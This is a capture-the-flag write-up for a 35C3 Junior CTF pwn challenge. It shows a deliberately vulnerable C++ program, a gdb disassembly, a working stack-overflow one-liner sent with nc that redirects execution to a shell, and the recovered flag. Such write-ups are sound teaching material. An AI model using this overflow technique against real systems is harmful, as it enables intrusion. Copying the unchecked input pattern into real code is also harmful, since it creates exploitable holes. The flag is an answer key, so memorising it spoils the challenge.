 # 35C3 Junior CTF – 1996

* **Category:** Pwn
* **Points:** 42 (variable)

## Challenge

> It's 1996 all over again!
>
> nc 35.207.132.47 22227

## Solution

The challenge involves a simple *buffer overflow* vulnerability. You will have two files: a binary and a C++ source code. 

```C++
// compile with -no-pie -fno-stack-protector

#include <iostream>
#include <unistd.h>
#include <stdlib.h>

using namespace std;

void spawn_shell() {
    char* args[] = {(char*)"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}

int main() {
    char buf[1024];

    cout << "Which environment variable do you want to read? ";
    cin >> buf;

    cout << buf << "=" << getenv(buf) << endl;
}
```

The objective is to change the return address of `getenv` function in order to hijack the flow to `spawn_shell` function.

```
gdb -q ./1996

(gdb) disass spawn_shell
Dump of assembler code for function _Z11spawn_shellv:
   0x0000000000400897 <+0>:	push   %rbp
   0x0000000000400898 <+1>:	mov    %rsp,%rbp
   0x000000000040089b <+4>:	sub    $0x10,%rsp
   0x000000000040089f <+8>:	lea    0x1b3(%rip),%rax        # 0x400a59
   0x00000000004008a6 <+15>:	mov    %rax,-0x10(%rbp)
   0x00000000004008aa <+19>:	movq   $0x0,-0x8(%rbp)
   0x00000000004008b2 <+27>:	lea    -0x10(%rbp),%rax
   0x00000000004008b6 <+31>:	mov    $0x0,%edx
   0x00000000004008bb <+36>:	mov    %rax,%rsi
   0x00000000004008be <+39>:	lea    0x194(%rip),%rdi        # 0x400a59
   0x00000000004008c5 <+46>:	callq  0x4007a0 <execve@plt>
   0x00000000004008ca <+51>:	nop
   0x00000000004008cb <+52>:	leaveq 
   0x00000000004008cc <+53>:	retq   
End of assembler dump.
```

The `spawn_shell` method will be loaded at `0x0000000000400897`.

To exploit the binary, you need to send at least 1024 characters (i.e. the `buf` size). After some analysis, the following exploit can be used to overwrite the return address.

```
(python -c 'print "A"*1048 + "\x97\x08\x40\x00\x00\x00\x00\x00"' ; cat ) | nc 35.207.132.47 22227
```

At this point, you will have a shell.

The `ls` command will reveal a `flag.txt` file.

The `cat flag.txt` command will reveal the flag.

```
35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14
```